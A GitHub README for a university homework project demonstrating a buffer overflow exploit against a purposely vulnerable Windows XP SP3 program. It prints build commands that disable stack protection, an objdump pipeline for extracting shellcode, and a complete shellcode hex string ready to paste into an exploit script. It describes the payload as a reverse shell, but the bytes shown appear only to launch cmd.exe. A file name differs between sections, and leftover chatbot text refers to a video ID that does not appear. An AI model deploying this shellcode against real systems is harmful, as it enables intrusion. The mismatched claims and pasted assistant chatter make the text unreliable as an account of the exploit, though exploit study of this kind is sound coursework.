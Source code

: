 # Buffer Overflow Example for Windows XP SP3

## Overview

This project demonstrates a **buffer overflow exploit** targeting a vulnerable program on **Windows XP SP3**. The `shell.asm` x86 shellcode creates a new process using `CreateProcessA` with hardcoded API addresses. Designed for **educational purposes**, it highlights how buffer overflows work and how shellcode executes.

**Created for CS166, HW5. Educational purposes only.**

---

## Features

- **Reverse Shell**: Executes `cmd.exe` and connects back to the attacker.
- **Hardcoded API**: Uses static addresses for Windows XP SP3 functions.
- **Customizable**: Easily update target IP/port for the reverse shell.

---

## Files

- `shell.asm`: Reverse shell payload in assembly.
- `bo.c`: Vulnerable program, binds a socket on the given IP and port.
- `exploit.py`: Python script for exploiting the buffer overflow vulnerability.

---

## Usage

### 1. Compile the Vulnerable Program
   Compile the C program using a 32-bit MinGW compiler:
   ```bash
   i686-w64-mingw32-gcc -fno-stack-protector -no-pie -m32 -o bo.exe bo.c -lws2_32
   Usage: .\bo.exe <IP> <PORT> 
   ```

### 2. Compile the Shellcode and Convert to a Hex String
   Assemble the shellcode using NASM and convert it into a hex string:
   ```bash
   nasm -f win32 shellcode.asm -o shellcode.o

   objdump -M intel -d shellcode.o | grep '[0-9a-f]:' | grep -v 'file' | \
   cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
   sed 's/ /\\x/g' | tr -d '\n' | sed 's/^/"/' | sed 's/$/"/g'
   ```

   Example Output:
   ```
   "\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 3. Copy the Hex String into `exploit.py`
   Replace the placeholder buffer in `exploit.py` with the generated hex string:
   ```py
   buf = b"\x31\xd2\x31\xc9\x51\x68\x65\x78\x65\x00\x68\x63\x6d\x64\x2e\x89\xe3\x83\xec\x54\x89\xe7\x51\x58\xb9\x15\x00\x00\x00\xf3\xab\x83\xef\x54\xc6\x07\x44\x8d\x77\x44\x56\x57\x51\x51\x6a\x00\x6a\x01\x51\x51\x53\x51\xb8\x6b\x23\x80\x7c\xff\xd0\x6a\x00\xb8\x0a\xd2\x81\x7c\xff\xd0"
   ```

### 4. Run `exploit.py`
   Install the `pwn` library if not already installed:
   ```bash
   pip install pwntools
   ```

   Execute the exploit:
   ```bash
   python exploit.py
   ```

---

## Demonstration Video

Below is an embedded demonstration of the buffer overflow exploit in action:

![Buffer Overflow Demo](output.gif)

---

## References (IEEE Style)

[1] E. H. Spafford, "The Internet Worm Incident," *IEEE Software*, vol. 6, no. 3, pp. 58-65, May 1989.

[2] M. Bishop, *Introduction to Computer Security*. Addison-Wesley, 2004.

[3] OWASP, "Buffer Overflow," [Online]. Available: https://owasp.org/www-community/attacks/Buffer_Overflow. [Accessed: Dec. 2, 2024].

[4] A. Finkel, "Understanding and Exploiting Buffer Overflows," *Proc. 22nd IEEE Security Symposium*, pp. 1-10, 2003.

---

## Author

Created by [Your Name or Alias].
```

Replace `YOUTUBE_VIDEO_ID` in the video link with your actual YouTube video ID for embedding. This provides a condensed yet informative README with an academic-style references section. Let me know if you need further adjustments!
